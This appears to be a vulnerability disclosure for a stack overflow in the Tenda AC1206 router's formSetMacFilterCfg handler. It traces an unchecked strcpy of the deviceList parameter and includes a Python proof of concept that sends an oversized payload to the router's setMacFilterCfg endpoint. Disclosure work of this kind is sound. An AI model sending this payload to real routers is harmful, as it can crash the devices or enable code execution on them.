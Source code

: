 # Tenda AC1206 formSetMacFilterCfg
### Overview
vendor: Tenda

product: AC1206

version: 15.03.06.23

type: Stack Overflow
### Vulnerability Description
Tenda AC1206 15.03.06.23 were discovered to contain a stack overflow via the deviceList parameter in the formSetMacFilterCfg function.

### Vulnerability details
In function formSetMacFilterCfg line 46, it reads in a user-provided parameter `deviceList`. The variable `v3` is passed as a parameter to the `set_macfilter_rules` function. Function `set_macfilter_rules` takes this variable as a parameter and passes it into function `set_macfilter_rules_by_one`. Function `set_macfilter_rules_by_one` calls function `parse_macfilter_rule`, where the first parameter is variable `a2`(actually `v3`) and the second parameter is the stack-based buffer `s_2`. In function `parse_macfilter_rule`, the variable `s`(actually `v3`) is passed to the `strcpy` function without any length check, which may overflow the stack-based buffer `dest`(actually `s_2`). As a result, by requesting the page, an attacker can easily execute a denial of service attack or remote code execution.

![](images/2.png)
![](images/3.png)
![](images/4.png)
![](images/5.png)

### POC
```python
import requests

ip = "192.168.0.1"
url = "http://" + ip + "/goform/setMacFilterCfg"

data = {
    "macFilterType": "white",
    "deviceList": "a" * 1000 + "\r" + "b" * 1000
}


response = requests.get(url, params=data)
print(response.text)
```

![](images/1.png)

